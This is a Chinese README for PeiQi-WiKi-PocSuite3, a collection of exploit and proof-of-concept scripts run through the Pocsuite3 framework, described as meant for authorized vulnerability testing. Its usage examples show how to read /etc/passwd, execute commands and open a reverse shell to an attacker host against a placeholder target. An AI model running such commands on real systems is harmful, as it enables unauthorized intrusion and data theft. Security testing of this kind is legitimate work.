





# PeiQi-WiKi-PocSuite3 文库🐑

## 关于项目

项目用于安全人员在授权的情况下，更加快速的使用POC/EXP来验证漏洞

漏洞的验证使用由知道创宇开发的Github开源项目Pocsuite3框架，在多个开源漏洞验证的框架中，Pocsuite3集合了漏洞利用和验证等功能，而使用Python语言来编写POC/EXP则大大减少了编写所花费的时间，也方便安全研究人员扩展使用方式，在此十分感谢框架的开发人员～

Github地址 : https://github.com/knownsec/pocsuite3



## 使用需知

POC/EXP 仅仅只供对已授权的目标使用测试，对未授权目标的测试PeiQi文库不承担责任，均由本人自行承担

本文库中的漏洞均为公开的漏洞收集，如果文库中的漏洞出现敏感内容产生了部分影响，请及时联系作者删除漏洞，望谅解~

如在使用中发现Bug，可以通过issues形式提交给作者进行修复与更新

## 公众号


## 关于使用

```
文件读取验证
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --attack --filename "/etc/passwd"
```


```
命令执行验证
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --attack --command "id"
```


```
反弹Shell验证   
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --shell --lhost "xxx.xxx.xxx.xxx"
```


```
无回显 Dnslog测试
```


## 最后
```
别忘了Github下载完给个小星星⭐
```

[](https://github.com/PeiQi0/PeiQi-WIKI-PocSuite3)

